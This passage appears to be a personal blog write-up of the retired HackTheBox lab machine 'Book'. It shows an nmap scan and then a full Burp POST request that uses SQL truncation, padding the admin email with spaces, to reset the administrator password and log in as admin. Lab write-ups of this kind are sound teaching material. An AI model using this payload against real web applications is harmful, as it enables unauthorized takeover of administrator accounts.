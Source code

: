 Title:HTB: Book
Date: xx-05-2020 10:35
category:security
tags:security, boot2root, HTB, Linux
meta:security, boot2root, HTB, Linux

<img class="align-left" src="/media/2020.xx/book_card.png" alt="Book card" width="262">


This is a writeup about a retired HacktheBox machine:
[Book](https://www.hackthebox.eu/home/machines/profile/230)
This box is classified as a medium machine published on February the 22th 2020
by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531).
It involves to

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only the ports 22 (SSH) and 80 (HTTP) are open.

    :::text
    # Nmap 7.80 scan initiated Tue Feb 25 07:26:24 2020 as: nmap --top-ports=10000 -sS -oN nmap 10.10.10.176
    Nmap scan report for 10.10.10.176
    Host is up (0.013s latency).
    Not shown: 8318 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Tue Feb 25 07:31:10 2020 -- 1 IP address (1 host up) scanned in 286.11 seconds

## Web

![authentication and signup forms](/media/2020.xx/book_01.png)

We can create an account using on the box.

![User panel](/media/2020.xx/book_02.png)

The Contact form give us the email address of the platform's adminitrator:
`admin@book.htb`.

Using [SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack)
we can change the admin account password on the plateform.

We register a new user with a specific long email using Burp repeater.
Our post data request is the following:

    POST /index.php HTTP/1.1
    Host: 10.10.10.176
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.176/index.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 222
    Connection: close
    Cookie: PHPSESSID=9li0llrrcn7tthael9i5s8pmsr
    Upgrade-Insecure-Requests: 1

    name=ppqqe&email=admin%40book.htb%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*&password=q

We can now logged in as `admin@book.htb` using the password `q`.


![admin panel](/media/2020.xx/book_01.png)


